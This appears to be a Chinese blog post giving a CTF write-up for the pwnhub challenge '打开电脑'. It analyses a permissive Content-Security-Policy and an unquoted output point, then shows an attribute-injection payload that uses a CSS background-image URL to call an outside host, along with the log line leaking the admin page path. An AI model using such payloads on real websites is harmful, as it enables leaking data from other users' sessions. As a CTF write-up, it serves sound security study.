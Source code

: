 ```yaml
---
title: pwnhub 打开电脑
date: 2017-02-20 02:15:46
tags:
- pwnhub
- xss
- csp
categories:
- Blogs
---
```


这是个比较特别的题目，开始上来逛了逛发现其实挺迷的...

<!--more-->

```
题目介绍

http://52.80.1.108:6666

2017.02.18 20:00:00没有SQL注入，仔细看CSP头。
2017.02.18 12:00:00管理员只爱看有意思的东西，谁关心bug啊哈哈哈哈。
```

看看站内的功能，min.php和max.php可以提交md5，会显示最大或者最小的md5，但是输入的地方存在正则，研究了一下发现不能输入任何符号，也就意味着这里不存在问题。

有个contact和report bug，content提交有趣的md5，但不同的是，没有正则提示，很多都提示提交成功，report bug就更是了，没任何check。

根据提示我们把report bug扔下，研究contact，先看看CSP

CSP
```
Content-Security-Policy: default-src *; img-src * data: blob:; frame-src 'self'; script-src 'self' cdn.bootcss.com 'unsafe-eval'; style-src 'self' cdn.bootcss.com 'unsafe-inline'; connect-src * wss:;
```


由于contact和minmax的功能相似，猜测后台的输出方式相似，所以仔细观察min.php，最奇怪的其实是输出点，输出点后没有引号包裹，也就意味着即便使用了htmlspecialchars过滤了"和<，但是我们仍然可以dom <del>xss</del>

```

 <a id="modal" class="detail" href="#detail" data-toggle="modal"
                           contributor=aaangelwhu hexdata=672e65613167722e333170366572657265726572657265>fffffffffffe53cdbc640fffb934cfb8</a>

```

但是一切的问题都在CSP，内联的脚本是不会被执行的，但这里有好多*啊

```
img-src *
style-src unsafe-inline
connect-src *
font-src *
media-src *
object-src *
```

style可以设置啊，然后style里有个<del>font-src可以随便设置</del>

关于字体的绕过方式，我仍然不知道是不是有效的，但我稍微尝试了下发现语法不同，也许是不熟悉吧，但我肯定是智障了，css可以设置背景图片啊，img-src是*啊，所以payload

```
aaang style=background-image:url('http://119.29.192.14')
```

收到了请求
```
115.159.200.107 - - [19/Feb/2017:03:21:31 +0800] "GET / HTTP/1.1" 304 0 "http://52.80.1.108:6666/d9aba78484e6d3325f88f0e8826191e9/admin.php" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
```


但想了一晚上为啥是404，我怕是智障了

![image_1b9a7v94vr64up1alh1jkcq3r9.png-102.8kB][1]

试到flag.php

![image_1b9a8efhs12qe1ktq124drc6podm.png-62.1kB][2]


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/oaum49esbcd46h8i0g2oni34/image_1b9a7v94vr64up1alh1jkcq3r9.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/g5bdewuyr3z0vmqbuwyrmonc/image_1b9a8efhs12qe1ktq124drc6podm.png